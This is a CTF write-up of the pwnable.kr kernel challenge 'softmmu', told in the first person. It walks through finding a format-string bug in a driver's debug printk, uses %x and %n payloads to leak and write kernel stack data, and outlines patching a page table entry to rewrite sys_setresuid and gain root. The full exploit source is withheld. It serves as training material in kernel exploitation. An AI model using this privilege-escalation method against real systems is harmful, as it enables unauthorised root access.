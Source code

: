 Over the years of my CTF'ing I always come back to [pwnable.kr](https://pwnable.kr), although a tad outdated it's a vast source of simply awesome binary exploitation and pwn challanges. In particular their kernel exploitation series of challanges interest me - they're really well made and good introductory material on the matter. Per the policies on the site, this writeup won't share any source code and try to be minimal as possible.

The last of those challanges is *softmmu*, here's the readme:

> ***If you are good at kernel exploit, try this one :)***


<img src="./static/img/softmmu/softmmu.png" style="width:20%">

## The Challange
We're given two things: a linux kernel object file containing some sort of a driver, and access to a fairly old linux virtual machine loaded with asid driver. Before we open the executable for further inspection in IDA, let's SSH into the machine and check what it does.

```shell
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne 'x00x80x04x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)

$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.ko
```

*Hmm*, it prints out a pretty explanation for us :3 As the name softmmu hints - the module interfaces with the Linux kernel memory's and emulates a x86 Page Address Extension for the MMU. The interface with the module seems to be very straightforward, we write a virtual address to the device file /proc/softmmu and then read back the physical address.

## Finding A Vulnerability
Our end goal is to get root, so we definitely have to find a vulnerability to expoloit in the softmmu module. Let's open the kernel object file in IDA to analyze:

<img src="./static/img/softmmu/overview.png" style="width:70%">

A fairly tame program, not too many functions and fairly straightforward structure. We are not going to reverse the entire program (since I found the vulnerability quickly) but here are some pointers:

> We cannot request the physical addresses of ones outside userspace (seems important for the exploit).
> It recursively traverses page table within the mmu_walk() function in order to retrieve addresses.
> Program contains verbose output for debugging purposes.

The last point is particulary important; it allows us to understand the inner workings better and perhaps find a vulnerability to exploit, let's look at the debugging code.

```c
__int64 __usercall get_pte_entry@<edx:eax>(int a1@<eax>, char *a2@<edx>)
{
  int v2; // ebx

  v2 = *(_DWORD *)&a2[8 * ((a1 & 0x1FF000u) >> 12)];
  if ( (v2 & 1) != 0 )
  {
    printk("[Debug] PGD(%x) Dumpn", a2);
    printk(
      "[task:%s] %p:%02x %p:%02x %p:%02x %p:%02xn",
      (const char *)(__readfsdword((unsigned int)&current_task) + 740),
      a2,
      *a2,
      a2 + 1,
      a2[1],
      a2 + 2,
      a2[2],
      a2 + 3,
      a2[3]);
    printk("[Debug] Dump Virtual Addressn");
    printk("n===============================n");
    printk((const char *)req_vaddr);
    printk("n===============================n");
  }
  return v2;
}
```

Fairly bloaty raw decompiled code, but breaking it down it is very simple: it retrieves a page table entry from a PD64 (Page Global Directory entry). Besides the pretty cool kernel level code, the vulnerability here is glaringly obvious - the program passes the address we request (a global variable) to printk().

> printk((const char *)req_vaddr);

#### Boom~! 

We found a string format vulnerability we can control :3 

## Writing The Exploit - Pt. 1
So far this hasn't been a challenge for kernel experts, even a script kiddie can find this vulnerability. I must admit, writing the exploit is much more difficult because a plethora of reasons.

In order to pass a string to the module, we'd have to allocate some bytes in the process memory space. Let's try compile a simple C program on the remote machine to do just that:

```shell
/tmp $ gcc pwn.c
sh: gcc: not found
```
*Oof*, that means we have to cross compile.
The first problem that imposes us is the fact the remote machine is running a really outdated version of the kernel, paired with the fact it doesn't have internet access it really limits us in how we compile for it.
The soltuion that I came up with was as follows
compile a static no-stdlib program -> compress it -> base64 the tar.gz -> do the reverse on remote.

#### This means writing a minimal libc from scratch, *good luck me*...

After a fair amount of work, I got to a level where I had all of the necessary API's to leverage the vulnerability
On local machine:

```shell
yael@covenstead:~/softmmu$ gcc pwn.c -nostdlib -m32 -static -o /dev/stdout | gzip - | base64 -w 0
H4sIAAAAAAAAA+1bfWwT5xlz3YSjziNYdmW0nR1p2iE0phAUpY0k0gCB2kFw4RYa9dS49hHEsd2PPtcEgYrzIuI5VnLgE2a1j+Q9v2hqdpUpPHPsqZt...
```

On Remote:

```shell
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%x %x %x %xn"
< paste base64 code here >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[<3] softmmu output: 0xBFB81288
```


Awesome~! We're able to leak addresses off the stack :3
Finally some progress, we should try running the forsakened %n...

```shell
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%65n"
< ... >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627]                                                               
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:A] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627]                                                        
======================================
[<3] softmmu output: 0xBFB81288
```
OMG, it worked and we wrote into the process name <3! (As seen in the debug messages) All of this work wasn't for nothing.

## Writing The Exploit - Pt. 2
Now for the second part of the exploit, we have to figure out how the hell we take advantage of the format string vulnerability. This isn't like the average format string attack as it's not performed on a userland stack, but a kernel one. Besides our request address which occasionally surfaces down the stack we get nada.

Luckily for us we have a bunch of debug values on the stack, some of them might be incredibly useful to craft an exploit. ***Yes!*** The stack is setup in a way we can write to the page table entry any arbtriary value we want, hence we change the permissions of a kernel pages and execute our code as supervisor :3
(We have a pointer for each byte and the corresponding address)

Since we have to fully comperhend the paging mechanism in full detail to execute this exploit properly, here's a diagram of the Page Table Entry structure:

<img src="./static/img/softmmu/pte.png" style="width:70%">

There are many bits and flops, but assuming basic knowledge of paging nothing is too out of ordinary. The first three flags are interesting: P (**P**resent), R/W (**R**ead/**W**rite) and U/S (**U**ser/**S**upervisor).
If the **P**resent bit is set then the page is actually in physical memory at the moment, if the **R**ead and **W**rite bit is set then the page is both readable and writable (if not then it is read only) and lastly the **U**Ser/**S**upervisor bit is set based on privellege level.

We can get to work on patching the bytes of the PTE, we are able to patch one of our userspace page entries to pount to a physical adress that contains the kernel code of sys_setresuid() and make it writable. Once we got that we can flip the prillege check from je to jne, call setresuid(0) and obtain root >:3

```shell
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x
< ... >
{CENSORED_FLAG}
/ # whoami
```

## Conclusions
This without a doubt is a serious challenge full of hurdles. Personally for me it symbolizes some sort of maturity in my cybersecurity journey, I learned so much throughout and I can't wait to do more.

About the softmmu itself, this post only showed the a small part of the failures. So much stuff I first tried didn't end up working at the end, this only shows how deep and complex it gets. I believe it is a prime example of diving deep and reading old documentation about the kernel's inner workings and trying to figure it all out.

<img src="./static/img/softmmu/softmmu_completed.png" style="width:20%">

TLDR: the kernel is complex